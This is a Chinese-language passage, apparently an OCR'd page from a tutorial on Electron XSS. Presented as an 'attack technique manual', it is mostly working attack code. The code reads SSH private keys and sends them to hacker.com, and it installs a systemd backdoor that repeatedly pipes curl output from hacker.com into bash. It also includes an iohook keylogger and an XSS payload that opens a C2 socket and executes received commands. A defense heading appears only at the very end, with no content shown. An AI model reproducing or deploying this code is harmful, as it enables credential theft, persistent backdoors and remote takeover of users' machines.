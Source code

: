   
攻击路径：外部页面 → 通过 require('child_process') 执行系统命令  
### Electron 专属攻击技术手册  
#### Node.js 模块武器化  

```
// 文件窃取
const data = require('fs').readFileSync('/.ssh/id_rsa');
new Image().src = `http://hacker.com/steal?data=${btoa(data)}`;


// 持久化后门
require('fs').writeFileSync(
  `${require('os').homedir()}/.config/systemd/user/backdoor.service`,
  `[Service]\nExecStart=/bin/bash -c &#34;while true; do curl http://hacker.com/shell | bash; done&#34;`
);


// 键盘记录器
require('iohook').on('keydown', e => {
  fetch('http://hacker.com/log', { method: 'POST', body: e.key });
});
```

#### 组合攻击链  

```
// 阶段1：通过XSS获取Node访问权
<img src=x onerror=&#34;
  const { net } = require('electron');


  // 阶段2：建立加密C2通道
  const socket = net.connect(443, 'c2.hacker.com', () => {
    socket.write(Buffer.from('CONNECTED|' + navigator.userAgent).toString('base64'));
  });


  // 阶段3：接收并执行指令
  socket.on('data', data => {
    const cmd = Buffer.from(data, 'base64').toString();
    require('child_process').exec(cmd, (e, out) => {
      socket.write(Buffer.from(out).toString('base64'));
    });
  });
&#34;>
```

### Electron XSS全面防御  
#### 安全配置黄金法则  
